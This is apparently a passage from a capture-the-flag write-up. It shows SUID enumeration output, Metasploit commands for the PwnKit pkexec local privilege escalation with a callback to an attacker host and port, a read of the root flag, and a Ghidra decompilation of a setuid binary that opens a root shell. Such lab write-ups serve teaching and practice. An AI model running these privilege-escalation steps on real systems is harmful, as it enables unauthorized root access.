 ```
-rwsr-xr-x 1 root root 75K Mar 23  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)                                                                                                                
-rwsr-xr-x 1 root root 40K Mar 23  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 111K Jul 10  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)                                                                                      

╔══════════╣ SGID
-rwsr-sr-x 1 daemon daemon 51K Feb 20  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
```

From the output we can see that the host is vulnerable to `CVE-2021-4034` `PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec`.
Now I  began upgrading my session to meterpreter to run the metaspoit module. We can see in the search results it's rated as `excellent` which means it's going to be quite reliable without a huge footprint. Ranking information can be found [here](https://docs.metasploit.com/docs/using-metasploit/intermediate/exploit-ranking.html).
```bash
CTRL+Z to background session
search 4034
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
show options
set SESSION <ID>
set LHOST <AttackerIPAddress>
set LPORT <AttackerListeningPort>
run
sessions <NewID>
```
Once we're in the new session we are a bit limited as to what commands we can run. I started experimenting and found `cat` to still function. I guessed for the location of the flag.
```bash
cat /root/root.txt
  {FLAG}
```
 We have successfully found all the flags and could now terminate the session.

>Edit: Upon completion of the box and this writeup I have compared my work against other publicly available writeups. I had found several people reverse engineering the file try-harder to find a number that will allow them to gain root. Once finding this, I decided it was a good idea to go back and find out how this can be done.

I was pointed towards a tool on the system called `ghidra`. Once I created a temporary project and imported the binary file using the `CodeBrowser` module. In here I started searching through the functions and found an interesting entry under the `main`.
```
void main(void)

{
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
```